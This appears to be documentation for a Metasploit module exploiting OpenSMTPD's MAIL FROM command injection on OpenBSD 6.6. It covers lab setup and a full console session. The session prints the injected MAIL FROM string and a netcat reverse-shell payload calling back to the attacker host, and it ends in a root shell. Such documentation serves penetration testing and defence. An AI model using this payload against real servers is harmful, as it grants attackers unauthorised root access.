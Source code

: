 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute code as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to
   `foo.my.domain`)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.my.domain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD commit >= a8e222352f
```

## Verification Steps

Follow the steps in the [Setup](#setup) and [Scenarios](#scenarios)
sections.

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > show missing

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 192.168.56.133
rhosts => 192.168.56.133
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.133:25 - Connecting to OpenSMTPD
[*] 192.168.56.133:25 - Saying hello and sending exploit
[*] 192.168.56.133:25 - Expecting: /220.*OpenSMTPD/
[+] 192.168.56.133:25 - Received: 220 foo.my.domain ESMTP OpenSMTPD
[*] 192.168.56.133:25 - Sending: HELO oKFMWnrTJZjTbzkGfVMsyDy7pO35ze
[*] 192.168.56.133:25 - Expecting: /250.*pleased to meet you/
[+] 192.168.56.133:25 - Received:
250 foo.my.domain Hello oKFMWnrTJZjTbzkGfVMsyDy7pO35ze [192.168.56.1], pleased to meet you
[*] 192.168.56.133:25 - Sending: MAIL FROM:<;for J in V e E n U T w v A K M a 0 s x;do read;done;sh;exit 0;>
[*] 192.168.56.133:25 - Expecting: /250.*Ok/
[+] 192.168.56.133:25 - Received:
250 2.0.0 Ok
[*] 192.168.56.133:25 - Sending: RCPT TO:<root>
[*] 192.168.56.133:25 - Expecting: /250.*Recipient ok/
[+] 192.168.56.133:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 192.168.56.133:25 - Sending: DATA
[*] 192.168.56.133:25 - Expecting: /354 Enter mail.*itself/
[+] 192.168.56.133:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 192.168.56.133:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/eizzy; nc 192.168.56.1 4444 0</tmp/eizzy | /bin/sh >/tmp/eizzy 2>&1; rm /tmp/eizzy
[*] 192.168.56.133:25 - Sending: .
[*] 192.168.56.133:25 - Expecting: /250.*Message accepted for delivery/
[+] 192.168.56.133:25 - Received:
250 2.0.0 ccd8e419 Message accepted for delivery
[*] 192.168.56.133:25 - Sending: QUIT
[*] 192.168.56.133:25 - Expecting: /221.*Bye/
[+] 192.168.56.133:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:16126) at 2020-02-05 16:16:59 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.my.domain 6.6 GENERIC#353 amd64
```
